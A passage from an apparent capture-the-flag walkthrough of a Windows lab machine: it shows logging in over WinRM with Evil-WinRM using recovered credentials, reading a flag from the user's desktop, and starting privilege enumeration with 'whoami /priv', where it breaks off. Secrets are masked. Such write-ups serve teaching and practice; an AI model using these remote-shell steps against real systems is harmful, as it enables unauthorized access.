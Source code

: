 Now we have the password for user `buse` !

## Getting a shell

Remember, port 5985 for WinRM (Windows Remote Management) is open. We can try to use [Evil-WinRM](https://github.com/Hackplayers/evil-winrm) to connect to this service using the credentials we have :  
```
attacker@AttackBox:~/Ra$ evil-winrm -i 10.10.11.49 -u buse -p **********

Evil-WinRM shell v3.4

Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine

Data: For more information, check Evil-WinRM Github: https://github.com/Hackplayers/evil-winrm#Remote-path-completion

Info: Establishing connection to remote endpoint

*Evil-WinRM* PS C:\Users\buse\Documents>
```

We can get the second flag in buse's desktop :  
```
*Evil-WinRM* PS C:\Users\buse> cd Desktop
*Evil-WinRM* PS C:\Users\buse\Desktop> ls


    Directory: C:\Users\buse\Desktop


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
d-----         5/7/2020   3:00 AM                Also stuff
d-----         5/7/2020   2:58 AM                Stuff
-a----         5/2/2020  11:53 AM             45 Flag 2.txt
-a----         5/1/2020   8:33 AM             37 Notes.txt


*Evil-WinRM* PS C:\Users\buse\Desktop> cat "Flag 2.txt"
THM{****************************************}
```

## Privilege escalation

Let's see what privileges we have :  
```
*Evil-WinRM* PS C:\Users\buse\Desktop> whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                    State
============================= ============================== =======
SeMachineAccountPrivilege     Add workstations to domain     Enabled
SeChangeNotifyPrivilege       Bypass traverse checking       Enabled
SeIncreaseWorkingSetPrivilege Increase a process working set Enabled
```
